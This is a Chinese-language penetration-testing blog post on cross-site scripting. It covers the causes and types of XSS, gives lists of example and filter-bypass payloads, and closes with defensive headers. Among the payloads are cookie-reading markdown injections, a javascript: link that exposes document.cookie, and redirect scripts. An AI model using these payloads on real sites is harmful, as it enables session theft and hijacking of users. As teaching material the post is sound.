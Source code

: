 ```yaml
---
layout: post
title:  XSS-跨站脚本攻击
date: 2021-06-30 16:20 +0900
category: penetration-theory
---
```

<!-- TOC -->

- [0x0 WHAT-什么是XSS](#0x0-what-什么是xss)
- [0x1 WHY-XSS产生的成因](#0x1-why-xss产生的成因)
- [0x2 HOW-XSS的分类](#0x2-how-xss的分类)
  - [0x2.1 反射型XSS](#0x21-反射型xss)
  - [0X2.2 存储型XSS](#0x22-存储型xss)
  - [0x2.3 dom型XSS](#0x23-dom型xss)
  - [0x2.4 姿势](#0x24-姿势)
  - [0x2.5 绕过姿势](#0x25-绕过姿势)
- [0x3 防护手段](#0x3-防护手段)

<!-- /TOC -->
## 0x0 WHAT-什么是XSS

**XSS全称为Cross Site Scripting，为了和CSS分开简写为XSS，中文名为跨站脚本。该漏洞发生在用户端，是指在渲染过程中发生了不在预期过程中的JavaScript代码执行。XSS通常被用于获取Cookie、以受攻击者的身份进行操作等行为。**  
- XSS的成因：服务器没有对用户的输入做过滤，利用的是浏览器会自动执行服务器发来的JS代码
- XSS的常见的了用方式：盗取cooike，流量劫持（让用户一直访问某个网站），攻击者通过CSRF等方式以用户身份执行危险操作
- 判断方式：留言板

## 0x1 WHY-XSS产生的成因

- 开发者没有对用户输入的信息做过滤，从而导致了用户可以输入恶意JS代码使浏览器执行

## 0x2 HOW-XSS的分类

### 0x2.1 反射型XSS

**一般需要配合CSRF**
- 反射型XSS通常出现在搜索等功能中，需要被攻击者点击对应的链接才能触发，且受到XSS Auditor、NoScript等防御手段的影响较大。

### 0X2.2 存储型XSS

**存在服务器端**
- 存储型XSS属于高危漏洞，攻击者能够把攻击载荷存入服务器的数据库中，造成持久化的攻击。

### 0x2.3 dom型XSS

- DOM型XSS不同之处在于DOM型XSS一般和服务器的解析响应没有直接关系，而是在JavaScript脚本动态执行的过程中产生的。

### 0x2.4 姿势

1. 普通弹窗
  - `http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>`
  - `http://localhost:8080/helloController/search?name=<img src='w.123' onerror='alert("hey!")'>`
  - `http://localhost:8080/helloController/search?name=<a onclick='alert("hey!")'>点我</a>`

2. 图片诱导
  - `< img onclick="window.location.href='http://www.baidu.com'" width='300' src='img/webwxgetmsgimg.jpg'/>`

3. 流量劫持
  - `<script>window.location.href="http://www.baidu.com";</script>`

4. 盗取cooike
  - 借用XSS平台生成恶意链接

### 0x2.5 绕过姿势

1. 大小写绕过
   1. `<sCrIpT>alert(1)</sCrIpT>`
   2. `<iMg src=1 oNeRrOr=alert(1)>`
   3. `<marquee onscroll=alert(1)>`
2. 多种alert
   1. `<script>alert(1)</script>`
   2. `<script>prompt(1)</script>`
   3. `<script>top["al"+"ert"](1)</script>`
3. 伪协议绕过
   1. `<a href=javascript:/0/,alert(%22M%22)>M</a>`
   2. `<a href=javascript:/M/,alert(%22M%22)>M</a>`
4. 图片名绕过
   1. `"><img src=x onerror=alert(document.cookie)>.gif`
5. markdown绕过
   1. `![a'"onerror=prompt(document.cookie)](x)`
   2. `![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)`

[更多请点击此处](https://websec.readthedocs.io/zh/latest/vuln/xss/payload.html)  
[markdown语法下的:盗取COOike，XSS例子](javascript:window.onerror=alert;throw%20document.cookie)

## 0x3 防护手段

1. HTML过滤，使用一些白名单或者黑名单来过滤用户输入的html
2. X-Frame：利用X-Frame-Options响应头
   1. DENY：页面不能嵌入到任何iframe或者frame中
   2. SAMEORIGIN：页面只能被本站页面嵌入
   3. ALLOW-FROM:允许iframe或者frame加载
3. XSS保护头：利用X-XSS-Protection来进行保护
   1. 0 : 表示关闭浏览器的XSS防护机制
   2. 1 : 删除检测到的恶意代码， 如果响应报文中没有看到 X-XSS-Protection 字段，那么浏览器就认为X-XSS-Protection配置为1，这是浏览器的默认设置
   3. 1; mode=block : 如果检测到恶意代码，在不渲染恶意代码
